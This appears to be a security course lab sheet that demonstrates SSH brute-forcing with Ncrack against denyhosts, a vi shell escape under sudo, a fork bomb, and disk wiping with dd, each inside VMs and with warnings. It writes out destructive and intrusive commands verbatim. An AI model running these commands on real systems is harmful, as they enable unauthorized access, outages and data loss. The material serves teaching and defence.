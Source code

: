 # **Lab 07:** Analyze and Differentiate Types of Attacks and Mitigations Techniques

## **Bruteforcing SSH**

### **Demonstrate Using Ncrack Against denyhosts**

**From Target Machine**
- Open Terminal
- Verify that the SSH service is running
```
~$ ps -eaf | grep -v grep | grep sshd
```
- Verify that the service **denyhosts** is not running
```
~$ service denyhosts status
```
- Based on the denyhosts.conf file, check to see where it places denied hosts.
```
~$ sudo grep HOSTS_DENY /etc/denyhosts.conf | grep -v "#"
```
**From Attacking Machine**
- Open Terminal
- Test SSH connection to the target system
```
~$ ssh name@ipaddress "uptime"
```
**From Target Machine**
- Open Terminal
- Grep the log entry recorded from the SSH connection that was initiated by the attacker.
```
~$ grep “Accepted password” /var/log/auth.log | grep “Attacker'sIP”
```
**From Attacking Machine**
- Open Terminal
- Initiate the Ncrack tool against target's SSH service, using a predefined password list.
```
~$ ncrack –v Target's IP -- user root –P /tmp/wordlists/passlist –p ssh
```
**From Target Machine**
- Open Terminal
- Start the denyhosts script
```
~$ sudo service denyhosts start
```
**From Attacking Machine**
- Open Terminal
- Attempt to SSH to the target's system with the credentials gained from the Ncrack tool
```
~$ ssh name@Target'sIP
```
- Might notice now how the connection is being automatically closed by the remote system.
- If so, determine if the IP address is being blocked or if SSH traffic is being blocked.
```
~$ telnet Target'sIP 22
```
- Noticing the output, we can determine that the IP address is being blocked since the remote host is still listening on port 22

**From Target Machine**
- Open Terminal
- View the contents of the **hosts.denyfile**
- Notice that the file is populated with the IPaddress belonging to the attacking system. 
- It can be concluded that the denyhosts service has blocked Attacker’s IP address based on its attempt to force itself an SSH connection with the remote system.
- Analyze the auth.log file for failed password attempts (case sensitive).
```
~$ grep “Failed password” /var/log/auth.log | grep “203.0.113.2”
```
- Notice the failed attempts created by the Ncrack application.

### **Unblock Kali**

**From Target Machine**
- To remove the blocked entry from the hosts.deny file, temporarily stop the rsyslogservice.
```
~$ sudo service rsyslog stop
```
- Stop the denyhosts service.
```
~$ sudo service denyhosts stop
```
- Edit the hosts.deny file by removing the Attacker's IP entry.
```
~$ sudo nano /etc/hosts.deny
```
- Use your arrows keys to navigate to the IP entry and press Backspace to erase the entire line: “sshd: Attacker's IP”
- Once modified, press CTRL+X to exit.
- When asked to save modified buffer, press the Ykey for Yes.
- Press Enter to confirm the filename as /etc/hosts.deny

## **Dangerous Linux Commands**

### **Exploiting sudo with vi Editor**

- Escalate to root privileges.
```
~$ sudo su
```
- Create and edit the hacksrus.txt file**
```
~$ vi hacksrus.txt
```
- Once in the **vi** editor, type the command below.
```
:!/bin/sh
```
- The input is recorded at the bottom of the **vi** editor.
- Press Enter.
- After the command is entered, you’ll be presented with the ‘ # ‘ prompt.
- Type *id* followed by pressing the Enter key.
- This command will print the current user
- Notice that you are running a shell as root.
- Type whoami to confirm you are the user root. Press Enter.
- Type exitfollowed by pressing the Enter key to close the shell.
- Press the Enterkey once more.
- Notice the prompt returns to the **vi** editor, type the command below followed by pressing the Enter key to quit.
```
:q!
```
- While in the terminal, type the command below to analyze the log file showing privileges being escalated to root.
```
~$ grep sudo /var/log/auth.log | tail -l
```
## **Demonstrate DOS Attack**
### **Warning:** Do not attempt this section of the lab on a personal computer.  It will cause serious harm to a machine, resulting in an inoperable state.
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Monitor live CPU and memory usage within a terminal window. Enter:
```
~$ htop
```
- Open a new terminal window
- Make sure to arrange the display of the new terminal window where you can see both terminals side-by-side.
- In the new terminal window, type the command below to initiate a “fork bomb” attack on the VM. 
```
~$ :(){ :|: & };:
```
- Watch closely at the terminal window with **htop** running.
- After 3-4 minutes, notice how the CPU usage spikes, reaching almost 100% while both memory and swap memory are spiking as well.
- What is happening here is that the Virtual Machine is running out of memory by forking a process infinitely.
- In other words, it is making multiple copies of itself that is setting off a chain reaction resulting in quickly exhausting the system’s resources.
- Because the system is overwhelmed, the **htop** application may be slow and unresponsive.
- Keep an eye on the Uptime value and see whether it is incrementing. If it is not, it is unresponsive. You may proceed to the next step.
- When you are finished analyzing the “fork bomb” operation, shutdown the Virtual Machine.

## **Destroying the HDD with dd**
### **Warning:**  Do not attempt this section of the lab on a personal computer. It will cause serious harm to a machine resulting, in an inoperable state. 
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Open a terminal
- Run **iotop** to actively monitor disk I/O activity
```
~$ sudo iotop
```
- Open another new terminal window.
- Position both terminal windows so that both can be viewed at the same time.
- Type the command below to mimic an HDD attack if an attacker had access to a physical machine within a network infrastructure.
```
~$ sudo dd if=/dev/zero of=/dev/sda
```
- Notice on the Terminal running **iotop**, a heavy I/O activity is taking place.
- Wait 1-3 minutes until the system crashes.
- Power down VM
- Power on VM
- Wait 1-3 minutes until a message appears showing that no operating system is available.
- The **dd** command has been successful in such a way that the damage has been done.
- The command process kept writing random zeros on the partition *sda* to the point where it can no longer function because of the overwritten files.
